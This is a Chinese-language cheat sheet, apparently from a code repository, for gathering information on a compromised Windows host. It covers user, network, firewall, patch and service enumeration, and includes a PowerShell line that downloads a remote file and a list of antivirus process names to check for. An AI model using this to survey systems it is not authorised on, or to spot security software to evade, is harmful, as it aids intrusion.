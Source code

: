 # 信息枚举

## 用户

查看当前用户

```
whoami
```

查看所有用户

```
net user
```

查看用户信息

```
net user xxxx
```

查看主机名

```
hostname
```

## 操作系统

```
systeminfo
```

## 查看进程

```
tasklist -V
```

计划任务

```
schtasks /Query /？
```



## 网络信息

```
ipconfig
```

#### 查看路由表

```
route print
```

## 连接信息

```
netstat -ano
```

## 防火墙信息

```
netsh advfirewall +参数
```

> 此上下文中的命令:                                                     
>  ?        - 显示命令列表。                                               
>  consec     - 更改到 `netsh advfirewall consec' 上下文。                                 
>  dump      - 显示一个配置脚本。                                              
>  export     - 将当前策略导出到文件。                                             
>  firewall    - 更改到 `netsh advfirewall firewall' 上下文。                                
>  help      - 显示命令列表。                                               
>  import     - 将策略文件导入当前策略存储。                                           
>  mainmode    - 更改到 `netsh advfirewall mainmode' 上下文。                                
>  monitor     - 更改到 `netsh advfirewall monitor' 上下文。                                
>  reset      - 将策略重置为默认全新策略。                                            
>  set       - 设置每个配置文件或全局设置。                                           
>  show      - 显示配置文件或全局属性。

> ```
> netsh advfirewall show +参数
> ```

> 此上下文中的命令:                                                       
>  show allprofiles - 显示所有配置文件的属性。                                           
>  show currentprofile - 显示活动配置文件的属性。                                          
>  show domainprofile - 显示域配置文件的属性。                                           
>  show global   - 显示全局属性。                                               
>  show privateprofile - 显示专用配置文件的属性。                                          
>  show publicprofile - 显示公用配置文件的属性。                                          
>  show store   - 显示当前交互式会话的策略存储。

**常用命令**

查看防火墙状态

```
netsh advfirewall show currentprofile
```

查看防火墙规则

```
netsh advfirewall firewall show rule name=all
```

## 已安装的应用程序

```
wmic /?
```

```
wmic product get name,version,vendor 
```

## **常规信息搜集**

```
systeminfo						打印系统信息
whoami							获得当前用户名
whoami /priv					当前帐户权限
ipconfig						网络配置信息
ipconfig /displaydns			显示DNS缓存
route print						打印出路由表
arp -a							打印arp表
hostname						主机名
net user						列出用户
net user UserName				关于用户的信息
net use \SMBPATH Pa$$w0rd /u:UserName	连接SMB
net localgroup					列出所有组
net localgroup GROUP			关于指定组的信息
net view \127.0.0.1				会话打开到当前计算机
net session						开放给其他机器
netsh firewall show config		显示防火墙配置
DRIVERQUERY						列出安装的驱动
tasklist /svc					列出服务任务
net start						列出启动的服务
dir /s foo					在目录中搜索包含指定字符的项目
dir /s foo == bar			同上
sc query						列出所有服务
sc qc ServiceName				找到指定服务的路径
shutdown /r /t 0				立即重启
type file.txt					打印出内容
icacls “C:\Example”				列出权限
wmic qfe get Caption,Description,HotFixID,InstalledOn	列出已安装的布丁
(New-Object System.Net.WebClient).DownloadFile(“http://host/file”,”C:\LocalPath”)				利用ps远程下载文件到本地
accesschk.exe -qwsu “Group”	修改对象（尝试Everyone，Authenticated Users和/或Users）
```

## 常见的杀软如下：

```

360sd.exe 360杀毒

360tray.exe 360实时保护

ZhuDongFangYu.exe 360主动防御

KSafeTray.exe 金山卫士

SafeDogUpdateCenter.exe 安全狗

McAfee McShield.exe McAfee

egui.exe NOD32

AVP.exe 卡巴斯基

avguard.exe 小红伞

bdagent.exe BitDefender

```

## **要搜集的信息大致如下几点：**

机器的系统及其版本

机器的打补丁情况

机器安装的服务

机器的防火墙策略配置

机器的防护软件情况